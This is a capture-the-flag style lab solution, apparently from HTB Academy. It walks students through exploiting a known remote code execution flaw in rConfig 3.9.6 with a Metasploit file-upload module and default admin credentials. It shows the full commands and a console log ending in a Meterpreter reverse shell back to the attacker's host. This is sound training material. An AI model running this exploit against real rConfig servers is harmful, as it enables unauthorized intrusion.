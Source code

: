 ```
```

Students will notice that ports 80 and 443 are open, thus, they need to navigate to the root page of the target's website. When warned with a security risk, students need to click on "Advanced..." then "Accept the Risk and Continue":

![[HTB Solutions/CPTS/z. images/31542e4ca05b707a592071eea93346f8_MD5.jpg]]

Students then will be redirected to a login page for rConfig, which shows that it has a version number of `3.9.6`:

![[HTB Solutions/CPTS/z. images/961a06acabdd8e4a2bf4430fcfb5cb02_MD5.jpg]]

This version is vulnerable to RCE, as shown in the "Discovering a Vulnerability in rConfig" subsection. Thus, students will need to use Metasploit to exploit this vulnerability (this exploit module requires a username and a password, however, because the aim of this module is to teach about Shells and Payloads mainly, students can leave out the default settings for the options USERNAME and PASSWORD, i.e., `admin:admin`:

Code: shell

```shell
msfconsole -q
set RHOSTS STMIP
set LHOST PWNIP
set SRVHOST PWNIP
exploit
```

```
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set RHOSTS 10.129.201.101 
setRHOSTS => 10.129.201.101

msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set LHOST 10.10.14.253
LHOST => 10.10.14.253

msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set SRVHOST 10.10.14.253
SRVHOST => 10.10.14.253

msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.253:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'busfcj.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted busfcj.php
[*] Meterpreter session 1 opened 
(10.10.14.253:4444 -> 10.129.201.101:37732)
at 2022-03-20 23:14:44 +0000

meterpreter >
```
